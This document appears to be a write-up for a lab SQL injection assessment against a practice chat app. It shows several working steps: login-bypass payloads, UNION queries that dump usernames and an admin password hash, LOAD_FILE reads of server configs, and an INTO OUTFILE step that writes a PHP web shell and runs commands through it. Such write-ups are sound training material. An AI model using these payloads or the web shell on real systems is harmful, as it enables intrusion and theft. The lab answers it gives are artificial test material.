# **SQL Injection Skills Assessment**

At first, when you access the lab’s IP if it looks like this It means you need to change the http → https 



Ex: [https://94.237.48.173:49825/](http://94.237.48.173:49825/)

## Part 1: Bypassing the Login/Register page

In this part, We now are in the page CHATTR and we have the login and create account page. And the lab doesn’t provide any account so here we could find some ways to login.

### Interacting with the login page



In the login page, i tried with some common to see payloads if it can bypass or show any sign

```sql
' #
' or 1 = 1 #
' or 1 = 1 )#
' or '1'='1 
" #
" or 1 = 1 #
" or 1 = 1 )#
" or "1"="1 
```

Well there is nothing interesting appearing 😢. Everything is just 


So we go to check the register page…
### Interacting with the register page



Here we have the username checker which does not allow you to create the same username as others.



 And here you can see admin is being used. You should not try to create an account with the username admin. Cause the lab requires admin’s password to pass the first question!! Also you can try to bypass here if you can.



> Once you try to create an account you will be stuck with the invitation code, Which you must have before creating.
> 

There are some regex formats that prevent you enter invalid symbols into the form. But it just work with the client-side. You can use `BURP` to pass. You can go to  /static/js/register.js to take a look at that

Now is where we go for the exploitation. Using `Burpsuite`, turn on intercept and create an account.

Here you have the Request like this


The registration process is going to check the invitation code first!!

So my imagination is some SQL queries like this:

```sql
SELECT * FROM <table> WHERE invitationcode = <yourinvitatoncode> .....
SELECT * FROM <table> WHERE ( invitationcode = '<yourinvitatoncode>'  ....... )
........................
```

The register page returns 500 internal server error with `‘` and SQL injection would be: 



— *here we need our invitation code to be true. So that it would valid for creating account*

```sql
' #
' or 1 = 1 #
' or 1 = 1 )#
' or '1'='1 

```

After trying different payload and  `' or '1'='1`  is the one working.

```markdown
username=Test12345&password=Test12345%40&repeatPassword=Test12345%40&invitationCode=aaaa-bbbb-1234'+or+'1'%3d'1+
```



## Part 2: Login and testing the website’s features



Here you have some users there to chat with, Search bar and send message 



To find the **Data Retrieval,** we need to use something that extracts data out.

First, i apply some payloads that retrieve data in search bar…

You have to try to fix the web’s SQL query; number of columns must match

```markdown
' UNION SELECT 1 #
' UNION SELECT 1,2 #
' UNION SELECT 1,2,3 #
' UNION SELECT 1,2,3,4 #
' UNION SELECT 1,2,3,4,5 #
') UNION SELECT 1 #
') UNION SELECT 1,2 #
') UNION SELECT 1,2,3 #
') UNION SELECT 1,2,3,4 #
') UNION SELECT 1,2,3,4,5 #
```

You better use Burp Intruder to check these payloads. 😊 If the columns it returns don’t match, there will be nothing to show up.



The one with the largest length is showing the number 3 Which is the position that data retrieval.

Now things is getting easier if you know how to play with database.

Retrieve database schema, all tables,  find which table is storing user, and finally show the username and password

```sql
') UNION select 1,2,schema_name,4 FROM INFORMATION_SCHEMA.SCHEMATA#

') UNION select 1,2,database(),4 #
```




```sql
') UNION select 1,2,CONCAT(TABLE_NAME,"-------",TABLE_SCHEMA),4 FROM INFORMATION_SCHEMA.TABLES where table_schema='chattr'#
```


```sql
') UNION select 1,2,CONCAT(COLUMN_NAME,":",TABLE_NAME,":",TABLE_SCHEMA),4 FROM INFORMATION_SCHEMA.COLUMNS where table_name='Users'#
```



```sql
') UNION select 1,2,CONCAT(Username,"---:---",Password,"--:---",InvitationCode),4 FROM chattr.Users #
```



So now is the end of part 2 with flag is admin password hash: `$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU`

## Part 3: Reading file, Finding root path

In this part, we using Load_FILE to read files. I use an SQL query to check for user privilege

 

```sql
') UNION SELECT 1,2,CONCAT(grantee,"-----------" ,privilege_type), 4 FROM information_schema.user_privileges#
```


This mean you can both read and write file… Really cool !

The way to solve this part is to file the configuration file on the server to know about web root. We have the information about the `Server: nginx/1.22.1`

Nginx's configuration at `/etc/nginx/nginx.conf`

```sql
') UNION SELECT 1,2,LOAD_FILE("/etc/nginx/nginx.conf"),4#
```



Okay Quite annoying  to read huh:

Here i underline some paths we can check:

```html
-------------------------------------------------
#user www-data; worker_processes auto; pid /run/nginx.pid; error_log /var/log/nginx/error.log; include /etc/nginx/modules-enabled/*.conf; events { worker_connections 768; # multi_accept on; } http { ## # Basic Settings ## sendfile on; tcp_nopush on; types_hash_max_size 2048; # server_tokens off; # server_names_hash_bucket_size 64; # server_name_in_redirect off; include /etc/nginx/mime.types; default_type application/octet-stream; ## # SSL Settings ## ssl_protocols TLSv1 TLSv1.1 TLSv1.2 TLSv1.3; # Dropping SSLv3, ref: POODLE ssl_prefer_server_ciphers on; ## # Logging Settings ## access_log /var/log/nginx/access.log; ## # Gzip Settings ## gzip on; # gzip_vary on; # gzip_proxied any; # gzip_comp_level 6; # gzip_buffers 16 8k; # gzip_http_version 1.1; # gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript; ## # Virtual Host Configs ## include /etc/nginx/conf.d/*.conf; include /etc/nginx/sites-enabled/*; } #mail { # # See sample authentication script at: # # http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript # # # auth_http localhost/auth.php; # # pop3_capabilities "TOP" "USER"; # # imap_capabilities "IMAP4rev1" "UIDPLUS"; # # server { # listen localhost:110; # protocol pop3; # proxy on; # } # # server { # listen localhost:143; # protocol imap; # proxy on; # } #}
------------------------------------------------
```
```txt
# Global Context
user www-data;
worker_processes auto;
pid /run/nginx.pid;
error_log /var/log/nginx/error.log;
include /etc/nginx/modules-enabled/*.conf;

# events Block 
events {
    worker_connections 768;
    # multi_accept on;
}

# http Block 
http {
    ## # Basic Settings ##
    sendfile on;
    tcp_nopush on;
    types_hash_max_size 2048;
    # server_tokens off;
    # server_names_hash_bucket_size 64;
    # server_name_in_redirect off;
    include /etc/nginx/mime.types;
    default_type application/octet-stream;

    ## # SSL Settings ##
    ssl_protocols TLSv1 TLSv1.1 TLSv1.2 TLSv1.3; # Dropping SSLv3, ref: POODLE
    ssl_prefer_server_ciphers on;

    ## # Logging Settings ##
    access_log /var/log/nginx/access.log;

    ## # Gzip Settings ##
    gzip on;
    # gzip_vary on;
    # gzip_proxied any;
    # gzip_comp_level 6;
    # gzip_buffers 16 8k;
    # gzip_http_version 1.1;
    # gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript;

    ## # Virtual Host Configs (Include các file cấu hình website) ##
    include /etc/nginx/conf.d/*.conf;
    include /etc/nginx/sites-enabled/*;
}

# mail Block 
#mail {
# # See sample authentication script at:
# # http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript
# #
# # auth_http localhost/auth.php;
# #
# # pop3_capabilities "TOP" "USER";
# # imap_capabilities "IMAP4rev1" "UIDPLUS";
# #
# # server {
# # listen localhost:110;
# # protocol pop3;
# # proxy on;
# # }
# #
# # server {
# # listen localhost:143;
# # protocol imap;
# # proxy on;
# # }
#}
```
When you try with some directory/wildcard you can search for it common files in that directory…

```sql
'') UNION SELECT 1,2,LOAD_FILE("/etc/nginx/mime.types"),4 #  Nothing helpful
'') UNION SELECT 1,2,LOAD_FILE("/var/log/nginx/access.log"),4# No data appear
'') UNION SELECT 1,2,LOAD_FILE("/var/log/nginx/error.log"),4# No data appear
'') UNION SELECT 1,2,LOAD_FILE("/etc/apache2/apache2.conf"),4# No data appear

'') UNION SELECT 1,2,LOAD_FILE("/etc/nginx/sites-enabled/*"),4# ---> key

## Searching for some common files in this we have the default file we can check
'') UNION SELECT 1,2,LOAD_FILE("/etc/nginx/sites-enabled/default"),4#
--------------------------------------------------------------------
```

```sql
-- server { listen 443 ssl; server_name chattr.htb; ssl_password_file /root/chattr.key.pass; ssl_certificate /etc/ssl/certs/chattr.crt; ssl_certificate_key /etc/ssl/private/chattr.key; ssl_protocols TLSv1.2 TLSv1.3; ssl_ciphers HIGH:!aNULL:!MD5; root /var/www/chattr-prod; location / { index index.php; try_files $uri $uri/ /index.php?$query_string; } location ~ \.php$ { include snippets/fastcgi-php.conf; fastcgi_pass unix:/run/php/php8.2-fpm.sock; } location ^~ /includes/ { deny all; } }
```

The root path Which is our PART 3’s flag: `/var/www/chattr-prod`

## Part 4: Writing RCE file

Testing with running `.php` file . Remember to place the script at the third position.

```sql
') union select "","",'<?php phpinfo() ; ?>',"" into outfile '/var/www/chattr-prod/phpinfor.php'#
```

Read that file for checking



Cool ! now thing get easy.

```sql
') union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/chattr-prod/shell.php'#
```

```markdown
--- request nhuw sau https://83.136.254.84:45683/shell.php?0=ls ../../..

-- https://83.136.254.84:45683/shell.php?0=cat%20../../../flag_876a4c.txt

```



So this is our final flag :  `061b1aeb94dec6bf5d9c27032b3c1d8d`